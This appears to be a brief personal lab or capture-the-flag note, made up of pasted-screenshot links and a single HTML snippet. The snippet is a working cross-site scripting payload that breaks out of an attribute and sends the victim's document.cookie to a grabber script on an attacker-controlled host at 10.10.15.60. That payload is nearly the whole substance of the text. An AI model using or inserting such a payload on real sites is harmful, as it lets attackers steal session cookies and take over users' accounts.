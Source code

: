 ___

![[Pasted image 20240928120748.png]]

![[Pasted image 20240928120807.png]]

```html
"><script>document.location='http://10.10.15.60/XSS/grabber.php?c='+document.cookie</script>
```

![[Pasted image 20240928120925.png]]

